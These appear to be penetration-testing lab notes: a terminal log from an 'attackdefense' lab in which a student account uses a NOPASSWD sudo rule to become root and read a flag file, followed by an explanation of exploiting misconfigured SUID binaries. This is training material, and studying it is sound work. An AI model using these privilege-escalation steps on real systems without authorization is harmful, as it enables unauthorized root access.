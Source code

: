 User student may run the following commands on attackdefense:
    (root) NOPASSWD: /etc/init.d/cron
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
student@attackdefense:/$ whoami
student
student@attackdefense:/$ crontab -l
no crontab for student
student@attackdefense:/$ sudo su
root@attackdefense:/# whoami
root
root@attackdefense:/# crontab -l
*/01 * * * * sh /usr/l 

root@attackdefense:/# sudo bin/bash
root@attackdefense:/# cd tmp
root@attackdefense:/tmp# ls -a
.  ..  message
root@attackdefense:/tmp# cat message
Hey!! you are not root :(
root@attackdefense:/tmp# sudo cat message
Hey!! you are not root :(
root@attackdefense:/tmp# cd /root/
root@attackdefense:~# ls -a
.  ..  .bashrc  .profile  flag
root@attackdefense:~# cat flag
697914df7a07bb9b718c8ed258150164
root@attackdefense:~#















## Exploiting SUID Binaries 

SUID (Set Owner User ID) Permissions:

- In addition to the main file access permissions (read, write, and execute), Linux provides specialized permissions for specific situations. One of these permissions is the SUID permission.
- When applied, the SUID permission allows users to execute a script or binary with the permissions of the file owner, rather than the user running the script or binary.
- SUID permissions are commonly used to allow unprivileged users to run specific scripts or binaries with "root" permissions. However, it's important to note that this privilege is limited to the execution of the script and does not grant overall privilege elevation. Improperly configured SUID binaries can be exploited by unprivileged users to gain elevated access through misconfigurations or vulnerabilities within the binary or script.

- The goal is to exploit the SUID functionality to elevate privileges. The success of the attack depends on the following factors:
    - Owner of the SUID binary: We target SUID binaries owned by the "root" user or other privileged users to achieve privilege escalation.
    - Access permissions: Executable permissions are required to execute the SUID binary and exploit its functionality.
